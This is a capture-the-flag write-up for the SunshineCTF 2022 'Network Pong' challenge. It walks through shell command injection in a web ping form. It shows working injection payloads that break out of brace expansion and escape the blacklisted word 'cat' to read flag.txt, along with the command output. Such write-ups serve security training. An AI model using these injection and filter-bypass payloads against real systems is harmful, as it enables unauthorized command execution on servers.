 #  Network Pong  
### 100 points

> Introducing Network Pong: Pong for the Internet! In this game, you just ping
> random websites and try to get the lowest latency.  
>  
> It is protected with state-of-the-art anti-hacking techniques, so it should
> be unhackable according to our security team of well-trained monkeys and
> felines.  
> https://pong.web.2022.sunshinectf.org

This is a simple webpage that lets the user run the ping command, vulnerable
with code injection.

I've solved with the help of
[hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/bypass-bash-
restrictions)

Let's start with some basic test. Since we know that is running ping, we can
try to inject something in the shell that's running it.

If we try to add a space, we'll get: `Error: Please only enter the IP or
domain!`

By writing `;ls` we get:  
```sh  
/bin/bash: line 1: {ping,-c,1,: command not found  
/bin/bash: line 1: ls}: command not found  
```

So, we can see that the command is enclosed in `{` in order to not have spaces

With `google.com};ls;{` we get the file list:  
```sh  
PING google.com (142.251.161.139): 56 data bytes  
ping: permission denied (are you root?)  
Dockerfile  
docker-entrypoint.sh  
flag.txt  
index.py  
requirements.txt  
templates  
/bin/bash: line 1: {}: command not found  
```

But if we try to use `google.com};{cat,flag.txt` the following error will
appear:  
`Error: Do not mention body parts, felines, or body parts of felines.`

So it seems that `cat` is filtered (using some sort of blacklist), but from
the link aforementioned we can find a solution to this problem: we can escape
the characters in `cat` in order to not have them filtered!

`google.com};{c\at,flag.txt`  
```sh  
PING google.com (142.251.161.139): 56 data bytes  
ping: permission denied (are you root?)  
sun{pin9_pin9-pin9_f1@9_pin9}  
```  

Original writeup
(https://gist.github.com/SalScotto/d855c77d07907f9768656e64a27b6887).